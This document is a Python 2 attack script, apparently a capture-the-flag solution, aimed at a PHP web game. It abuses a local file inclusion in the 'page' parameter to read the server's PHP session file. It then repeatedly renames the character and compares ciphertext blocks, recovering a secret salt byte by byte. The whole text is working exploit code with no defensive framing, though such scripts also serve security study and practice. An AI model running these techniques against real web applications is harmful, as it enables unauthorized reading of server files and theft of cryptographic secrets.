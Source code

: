 ```python
def read_sess():
    r = requests.get(
        url + "?page=/var/lib/php/sessions/sess_" + cookie['PHPSESSID'],
        cookies=cookie)
    return r.content


def get_sess_character_name():
    """read_sess():
    character_name|s:64:"6269cb047bbbd0802cd7b882700591c6f6ace10234be4243997282e7c467e820";
    user|s:64:"82f0cac5c0591592eaccfdac48f3e3656c264c7a73f97aeea603461254e3ac38";
    action|s:40:"[12:04:21pm GMT+7] Change character name";
    """
    character_name = read_sess().split(';')[0].split(":")[-1][1:-1]
    return character_name


def change_name(character_name):
    payload = dict(name=character_name, submit='Edit')
    r = requests.post(url + "?page=setting.php", cookies=cookie, data=payload)


def whoami():
    r = requests.get(url + "?page=home.php", cookies=cookie)
    s = BeautifulSoup(r.content, 'lxml')
    print s.h2.get_text().split('\n')[0]


def change_and_check(name):
    change_name(name)
    # whoami()
    return get_sess_character_name()


def crack_salt():
    junk = 'x' * 16
    salt = ''
    s = 'ms_g00d_0ld_g4m3' + string.printable
    for i in range(15, -1, -1):
        cmp = change_and_check(junk[:i])[:32]
        if i == 0:
            # 如果i==0，无法修改用户名，实际上salt对应的就是第二个密文块，直接取即可
            cmp = change_and_check(junk)[32:64]
        for j in s:
            if cmp == change_and_check(junk[:i] + salt + j)[:32]:
                salt += j
                print salt
                break
    return salt


salt = crack_salt()
```
